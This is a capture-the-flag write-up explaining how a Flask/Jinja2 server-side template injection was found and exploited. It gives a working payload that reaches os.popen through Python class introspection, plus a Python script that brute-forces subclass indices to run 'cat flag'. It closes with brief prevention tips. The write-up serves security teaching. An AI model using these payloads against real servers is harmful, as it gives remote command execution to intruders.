

# SSTI 1 (Server Side Template Injection)

This challenge is vulnerable to a vulnerability called server-side template injection, which gives the attacker the ability to inject a malicious payload into a template which is then executed on the server-side.



if we did send this ``{{7*7}}` payload as user input it will get executed on the server side.


It does not display `{{7*7}}` as plain text. Instead, the template engine executes it on the server, calculates the result, and returns 49.

Ok now we know that the server is vulnerable, so now let's identify which technology the server is using for example python or php ...

So to identify the server techonlogie let's read the heards of the response by using `curl -I <url>`

and headers are :

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Thu, 08 May 2025 23:15:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 567
Connection: close
```

The Server: Werkzeug/3.0.3 Python/3.8.10 header confirms that the server is using Python with the Werkzeug WSGI server. This strongly suggests the backend is Flask, since Flask is built on Werkzeug.

Now, Flask uses Jinja2 as its default template engine

To extract the flag, we can craft a payload that takes advantage of Python’s object model and introspection features. By leveraging server-side template injection (SSTI), we can escape the sandbox and read the flag file using Python "gadgets":

```python
{{"".__class__.__base__.__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}
```
This payload navigates through Python’s class hierarchy to access the os module and execute a system command that reads the flag. The result is printed directly in the rendered template response.

Breakdown of the Payload

    "": Empty string object.

    .__class__: Gives <class 'str'>.

    .__base__: Gives <class 'object'>.

    .__subclasses__(): Lists all subclasses of object.

    [<index>]: We select a subclass that gives us access to __globals__.

    .__init__.__globals__: Accesses the global variables of that class’s constructor.

    ['sys']: Gets the sys module from globals.

    .modules['os']: Accesses the os module.

    .popen('cat flag'): Runs the shell command.

    .read(): Reads the result — the flag!

## How I Discovered the Right Gadget Subclass for the SSTI Exploit

To find a Python class with access to dangerous internals (like the sys module), I wrote a script to enumerate all subclasses of Python’s base object class, using Server-Side Template Injection (SSTI). Here's how it works:

```python

import requests
import html
import re

url = "ctf-url"
#This payload returns a list of all subclasses of the base Python #object class.
payload = "{{\"\".__class__.__base__.__subclasses__()}}"

#We send the payload to the vulnerable endpoint via a POST request.
r = requests.post(url, data={"content":payload})

#If the request is successful, we decode the HTML content and extract class names using regex.

if r.status_code == 200:
    html_content = r.text
    content_decoded = html.unescape(html_content)
    class_names = re.findall(r"<class '([^']+)'>", content_decoded)
    print(len(class_names))

    #For each subclass index, we craft a new payload to try to access __globals__['sys'] and run a shell command: cat flag.
    for i in range(0, len(class_names)):
        new_paload = "{{\"\".__class__.__base__.__subclasses__()["+ str(i) + "].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"
        #We send the new payload to the server.
         nr = requests.post(url, data={"content":new_paload})
         #If the response contains the flag, we print the result and stop the script.
        if nr.status_code == 200:
            print(nr.text)
            print("*"*20)
            #This is how we find the first subclass that gives us working access to Python internals, in this case: index 80.
            print("class name: ", class_names[i], "index: ", i)
            exit(0)
```
### Why This Was Vulnerable:
- No input sanitization before rendering templates.
- Lack of proper context escaping in the template engine.

### Prevention:
- Use a **safe template engine** that does not evaluate code or expressions.
- Sanitize inputs and avoid using user input in templates directly.

---

🎥 **Want to see this exploit in action?**

Check out the full walkthrough on my YouTube channel where I demonstrate this SSTI attack step-by-step:

👉 [Watch on YouTube](https://www.youtube.com/@yourchannel)  
🔔 Don’t forget to **like**, **subscribe**, and **turn on notifications** so you never miss a cybersecurity tutorial!

---